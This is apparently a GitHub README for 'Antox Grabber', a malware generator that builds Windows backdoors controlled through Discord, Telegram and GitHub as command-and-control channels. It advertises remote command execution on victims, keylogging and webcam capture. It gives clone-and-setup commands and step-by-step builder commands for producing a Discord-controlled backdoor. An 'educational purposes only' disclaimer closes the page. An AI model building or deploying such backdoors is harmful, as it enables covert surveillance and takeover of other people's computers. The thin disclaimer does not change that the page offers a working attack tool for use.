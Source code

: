 <h1 align="center">
  <br>
  <br>
  Antox Grabber
  <br>
</h1>

<h4 align="center">Antox Command and Control</h4>

<p align="center">
    <img src="https://img.shields.io/badge/Backdoor_Platform-Windows-blue">
    <img src="https://img.shields.io/badge/Version-2.1.2-blue">
    <img src="https://img.shields.io/badge/Python-3.8.9-blue">
</p>

---

## What is Antox?

Antox is a malware generator that generates backdoors which use online platforms as C2s. This includes Discord, Telegram and Github. 

Our goal is to prove that anything can be a C2, if you want to :) ...

## How does it work?

The Antox backdoors are using libraries which allow the backdoor to act as a "Bot" for the above-mentioned platforms. Essentially the attacker contacts the bot and specifies a malicious command to execute on the target "Agent". 

Antox is equipped with a lot of features **some** of which are:
- Encrypted traffic (HTTPS)
- Running system commands on target Agent
- Keylogger (Limited to Discord)
- Grabbing webcam snaps
- Multiple online agents at a time (Limited to Discord & GitHub)

## Installation and Usage

Antox is better installed and used on Kali Linux:
```
git clone https://github.com/Anton-ai111/AntoxGrabber.git
cd ./AntoxGrabber
chmod +x setup.sh
./setup.sh
```
Once this is done we can use the builder. Let's build a discord based C2 backdoor:
```
python builder.py
use discord
set name <backdoor-name>
set guild-id <server id from discord>
set bot-token <discord bot token>
set channel-id <channel id from discord server>
set webhook <discord webhook>
build
```

## How to Setup Antox
Since the setup process is very specific for each platform.

## Contributors
Contributions are welcome to our GitHub repo! We value community involvement and appreciate all types of contributions, from bug reports to code. Join us in building something great and making a positive impact on the world. Get involved today!

## Disclaimer
This github repository is made for educational purposes only. The developer is not responsible for any misuse of this software. **Do not use this software for illegal purposes.**
